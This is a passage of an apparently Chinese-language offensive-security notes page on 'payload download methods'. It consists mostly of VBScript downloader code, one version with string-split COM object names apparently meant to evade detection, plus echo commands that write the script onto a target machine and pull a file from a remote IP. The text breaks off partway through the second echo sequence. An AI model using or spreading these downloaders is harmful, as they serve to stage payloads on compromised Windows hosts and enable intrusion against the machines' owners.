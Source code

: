# payload下载方式

## 1、VBS下载

### 1、下载方式1

```text
## down.vbs

set a=createobject("adod"+"b.stream"):set w=createobject("micro"+"soft.xmlhttp"):w.open "get",wsh.arguments(0),0:w.send:a.type=1:a.open:a.write w.responsebody:a.savetofile wsh.arguments(1),2

## echo写入

echo set a=createobject("adod"+"b.stream"):set w=createobject("micro"+"soft.xmlhttp"):w.open "get",wsh.arguments(0),0:w.send:a.type=1:a.open:a.write w.responsebody:a.savetofile wsh.arguments(1),2 > down.vbs

## 下载文件

cscript down.vbs http://172.16.175.1/robots.txt d:\test\r.txt
```

### 2、无参数方式下载

```text
## down.vbs

strFileURL = "http://172.16.175.1/robots.txt"
strHDLocation = "D:\\readme.txt"
Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP")
	objXMLHTTP.open "GET", strFileURL, false
	objXMLHTTP.send()
If objXMLHTTP.Status = 200 Then
Set objADOStream = CreateObject("ADODB.Stream")
	objADOStream.Open
	objADOStream.Type = 1
	objADOStream.Write objXMLHTTP.ResponseBody
	objADOStream.Position = 0
Set objFSO = CreateObject("Scripting.FileSystemObject")
If objFSO.Fileexists(strHDLocation) Then objFSO.DeleteFile strHDLocation
Set objFSO = Nothing
objADOStream.SaveToFile strHDLocation
objADOStream.Close
Set objADOStream = Nothing
End if
Set objXMLHTTP = Nothing

## 使用echo写入代码，不需要写入缩进

echo strFileURL = "http://172.16.175.1/robots.txt" > down.vbs
echo strHDLocation = "D:\\readme.txt" >> down.vbs
echo Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP") >> down.vbs
echo objXMLHTTP.open "GET", strFileURL, false >> down.vbs
echo objXMLHTTP.send() >> down.vbs
echo If objXMLHTTP.Status = 200 Then >> down.vbs
echo Set objADOStream = CreateObject("ADODB.Stream") >> down.vbs
echo objADOStream.Open >> down.vbs
echo objADOStream.Type = 1 >> down.vbs
echo objADOStream.Write objXMLHTTP.ResponseBody >> down.vbs
echo objADOStream.Position = 0 >> down.vbs
echo Set objFSO = CreateObject("Scripting.FileSystemObject") >> down.vbs
```